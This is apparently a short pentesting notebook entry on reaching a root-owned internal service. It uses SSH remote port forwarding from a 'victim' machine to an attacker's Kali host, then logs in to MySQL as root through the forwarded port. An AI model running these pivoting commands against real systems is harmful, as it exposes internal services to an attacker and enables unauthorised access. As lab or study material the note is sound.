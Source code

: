 ```yaml
---
category: Uncategorized
tags: []
---
```

In some instances, a root process may be bound to an internal port, through which it communicates.

If for some reason, an exploit cannot run locally on the target machine, the port can be forwarded using SSH to your local machine:

```bash - target
ssh -R $KALI_PORT:127.0.0.1:$TARGET_PORT kali@$KALI
```

The exploit code can now be run on your local machine at whichever port you chose.

First, let's discover the port mysql is running on:

```bash - kali
ss -antp
```

OR

```bash - kali
netstat -nl
```

![[Pasted image 20211229224451.png]]

It is running on its default port, 3306. Notice is bound to local address, meaning we cannot access it externally.

In Kali:

```bash - kali
service ssh start
```

In Victim:
```bash - victim
ssh -R 4444:127.0.0.1:3306 kali@$KALI
```

In Kali:
```bash - kali
mysql -u root -h 127.0.0.1 -P 4444
```
